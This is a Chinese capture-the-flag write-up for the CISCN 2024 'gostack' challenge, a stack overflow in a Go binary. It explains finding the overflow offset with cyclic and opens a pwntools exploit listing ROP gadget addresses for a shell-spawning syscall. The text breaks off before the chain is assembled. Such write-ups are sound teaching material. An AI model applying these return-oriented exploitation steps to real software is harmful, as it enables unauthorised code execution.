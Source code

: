 上面第一张是ida7.5的，第二张是ida8.3的

大致看一下代码，运行一下，用cyclic测量溢出点
go语言运行报错后会直接打印错误的返回地址，就不用gdb调试了
![](ciscn2024-初赛-wp/gostack-cyclic.png)

得出溢出点464
![](ciscn2024-初赛-wp/gostack-cyclic-l.png)

其实main_main_func2就是后门函数，不过懒得看代码了，直接用系统调用获取shell

### exp
```python
from pwn import *

p = process("./gostack")

context.log_level = 'debug'

# ROPgadget
rdi = 0x4a18a5 #0x00000000004a18a5 : pop rdi ; pop r14 ; pop r13 ; pop r12 ; pop rbp ; pop rbx ; ret
rsi = 0x42138a #0x000000000042138a : pop rsi ; ret
rax = 0x40f984 #0x000000000040f984 : pop rax ; ret
rdx = 0x4944ec #0x00000000004944ec : pop rdx ; ret
ret = 0x40201a #0x000000000040201a : ret
syscall = 0x4616C9 #0x00000000004616C9 : syscall ; ret

addr = 0x5978d8 # 随便找一个能写的地址，不行就换一个

# function
main = 0x04A0AC0

# send
#gdb.attach(p))

```